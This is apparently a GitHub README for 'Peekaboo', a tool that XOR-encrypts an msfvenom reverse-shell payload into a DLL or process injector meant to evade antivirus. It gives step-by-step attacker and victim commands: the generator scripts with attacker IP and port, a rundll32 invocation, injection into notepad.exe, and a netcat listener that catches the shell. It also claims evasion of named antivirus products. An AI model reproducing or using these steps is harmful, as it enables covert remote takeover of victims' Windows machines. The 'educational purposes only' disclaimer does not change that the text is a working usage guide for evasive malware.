 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/1.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 10.9.1.6 -p 4444
```

![run python script](./screenshots/2.png?raw=true)

### then on victim machine (windows x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, BMzUWjfJOsdaiCQzbTLM
```

![run on victim machine](./screenshots/3.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/4.png?raw=true)

example:
![final](./screenshots/5.png?raw=true)

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/6.png?raw=true)

run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.9.1.6 -p 4444 -e notepad.exe
```

![encrypting](./screenshots/7.png?raw=true)

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

![compile in attacker windows x64](./screenshots/8.png?raw=true)

### then on victim machine (windows x64):
```cmd
.\peekaboo.exe
```

or click

![run on victim machine](./screenshots/9.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/10.png?raw=true)

## 3. UPDATTE: Compile injector on kali linux (but only console .exe now)
run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.10.88.57 -p 4444 -e notepad.exe
```

![encrypting and compile](./screenshots/12.png?raw=true)

### then on victim machine (windows 10 x64):
```cmd
.\peekaboo.exe
```

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/13.png?raw=true)

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 7 x64, Windows 10 x64
3. Payload: windows x64 reverse shell from msfvenom
4. AV Engines: Kaspersky, Windows Defender, Norton Commander

# Virus Total result:
02 september 2021

![virustotal](./screenshots/11.png?raw=true)

[https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection](https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection)

## TODO
- [x] Compile injector in Kali linux
- [ ] Implement custom variations of `GetProcAddress` and `GetModuleHandle` functions
- [ ] Replace msfvenom shell to custom undetectable

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)
